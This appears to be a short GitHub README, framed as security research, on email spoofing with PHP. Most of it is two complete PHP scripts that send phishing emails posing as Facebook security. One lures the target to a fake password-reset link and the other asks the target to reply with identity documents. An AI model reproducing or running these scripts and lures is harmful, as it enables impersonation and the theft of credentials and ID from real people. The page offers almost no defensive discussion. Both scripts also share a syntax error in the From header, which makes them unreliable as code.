


# Email-Spoofing-PHP
Breakdown on security research into PHP Email Spoofing.
    

   
## Example 1   
```
<?php
$from = "reallookingemail@fbsecurity.com";
$to = "targetemail@gmail.com";
$display = "FB Security";
$subject = "Password Data Breach";
$message = '<h5>Data Breached</h5><p>Unfortunately we\'ve recently suffered a password database breach on our system, please change your password by following this link. <br><br>Please open this link in your browser or click on the link to automatically be taken to the address.<br><a href="fbsecurity.com/">Password Reset</a></p>';
$reply = "security@facebook.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}
```

> Example PHP Phishing - Using Email Sender Name and ReplyTo.
   
Results in an email from "FB Security" prompting to update password at a fake link.   
   
  
## Example 2   
> In this example we are changing the $from address to spoof a real email address - this is the old method that doesn't work because most provider's will block the fake email address by checking the domains mail (mx) records.
```   
<?php
$from = "support@facebook.com";
$to = "targetemail@gmail.com";

$display = "Facebook";
$subject = "Security Breach";
$message = '<h4>Facebook</h4><p>Unfortunately we\'ve recently suffered a secure database breach on our system, please confirm your identity by replying to this message and attaching 100 points of ID.<br>Security is very important to us at Facebook and we must ask people to now provide identification details to further ensure your safety on our network, we are sorry for this inconvenience. </p>';
$reply = "support@fbsecurity.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}   
```
> Here the attacker has spoofed the From Email address and the Name of the email sender, asking for details. 
  
 
## Example 3 
> Here we look at SMTP, the same Changing of From Address occurs.
 
   
Example 1 & 2.    
.   
   

